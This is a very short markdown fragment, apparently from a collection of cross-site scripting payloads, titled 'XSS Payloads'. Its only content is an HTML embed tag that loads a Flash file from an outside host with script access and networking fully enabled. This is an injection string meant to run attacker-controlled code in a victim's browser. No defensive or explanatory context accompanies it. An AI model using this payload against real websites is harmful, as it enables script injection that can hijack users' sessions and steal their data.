 # XSS Payloads
--------------------------------------


`<embed src="http://up.51xxs.com/users/public/1402767480_224122.swf" allownetworking="all" allowscriptaccess="always">`
